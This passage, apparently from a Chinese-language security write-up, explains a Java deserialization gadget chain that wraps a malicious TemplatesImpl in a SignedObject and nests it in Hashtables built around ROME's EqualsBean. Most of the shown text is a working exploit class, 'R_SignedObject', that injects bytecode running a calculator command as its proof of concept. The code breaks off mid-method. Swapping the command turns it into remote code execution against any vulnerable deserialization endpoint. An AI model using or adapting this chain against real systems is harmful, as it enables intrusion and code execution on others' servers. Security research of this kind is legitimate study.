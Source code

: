 构造恶意`TemplatesImpl`，将其装入第一个`Hashtable`

![image-20220810095408001](./Zets/index/image-20220810095408001.png)

构造恶意`SignedObject`，将其装入第二个`Hashtable`

![image-20220810100110091](./Zets/index/image-20220810100110091.png)

最终 exp

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javax.xml.transform.Templates;
import java.security.*;
import java.util.HashMap;
import java.util.Hashtable;
import static util.Tool.*;

public class R_SignedObject {
    public static void main(String[] args) throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, &#34;_bytecodes&#34;, new byte[][]{
                payload(&#34;mate-calc&#34;).toBytecode()});
        setFieldValue(obj, &#34;_name&#34;, &#34;Poria&#34;);
        setFieldValue(obj, &#34;_tfactory&#34;, new TransformerFactoryImpl());

        Hashtable table1 = getPayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance(&#34;DSA&#34;);
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(table1, kp.getPrivate(), Signature.getInstance(&#34;DSA&#34;));

        Hashtable table2 = getPayload(SignedObject.class, signedObject);

        run(table2, &#34;debug&#34;, &#34;object&#34;);
    }
    public static Hashtable getPayload (Class clazz, Object payloadObj) throws Exception{
        EqualsBean bean = new EqualsBean(String.class, &#34;r&#34;);
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put(&#34;yy&#34;, bean);
        map1.put(&#34;zZ&#34;, payloadObj);
        map2.put(&#34;zZ&#34;, bean);
```